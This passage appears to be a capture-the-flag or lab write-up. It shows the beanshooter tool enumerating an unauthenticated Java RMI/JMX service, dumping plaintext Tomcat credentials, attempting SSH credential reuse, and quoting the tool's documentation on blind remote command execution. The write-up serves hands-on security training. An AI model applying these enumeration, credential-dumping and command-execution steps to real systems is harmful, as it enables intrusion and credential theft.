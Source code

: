 
Use beanshooter to enumerate Java RMI services and check for common weaknesses.
> The Beanshooter tool was used for vulnerability scanning and exploitation, revealing that authentication is not enabled and some credentials for the Tomcat users are exposed.

```sh
java -jar  beanshooter-4.1.0-jar-with-dependencies.jar enum 10.10.124.180 2222
[+] Checking available bound names:
[+]
[+] 	* jmxrmi (JMX endpoint: 127.0.1.1:33875)
[+]
[+] Checking for unauthorized access:
[+]
[+] 	- Remote MBean server does not require authentication.
[+] 	  Vulnerability Status: Vulnerable
[+]
[+] Checking pre-auth deserialization behavior:
[+]
[+] 	- Remote MBeanServer rejected the payload class.
[+] 	  Vulnerability Status: Non Vulnerable
[+]
                        .....................................
[+]
[+] Enumerating tomcat users:
[+]
[+] 	- Listing 2 tomcat users:
[+]
[+] 		----------------------------------------
[+] 		Username:  manager
[+] 		Password:  fhErvo2r9wuTEYiYgt
[+] 		Roles:
[+] 			   Users:type=Role,rolename="manage-gui",database=UserDatabase
[+]
[+] 		----------------------------------------
[+] 		Username:  admin
[+] 		Password:  onyRPCkaG4iX72BrRtKgbszd
[+] 		Roles:
[+] 			   Users:type=Role,rolename="role1",database=UserDatabase
```
I tried to reuse the admin credentials for SSH, but Authentication failed. likely requires a key or SSH is configured for key-based login only
```sh
$ ssh admin@10.10.124.180
admin@10.10.124.180: Permission denied (publickey).
```
## Exploitation

According to the repository for Beanshooter tool , the recommended method for achieving remote code execution (RCE) is as follows:

[Command execution via the standard action is blind and you do not receive the output of your command. Moreover, by default your command is passed to Runtime.exec(String str), which does not support special shell features. If you want to use shell features, use the --exec-array option and specify your command like this: 'sh -c echo "my cool command" > /tmp/test.txt'. With --exec-array, beanshooter splits the specified command in three parts and passes them to Runtime.exec(String[] arr)](https://github.com/qtc-de/beanshooter#standard)
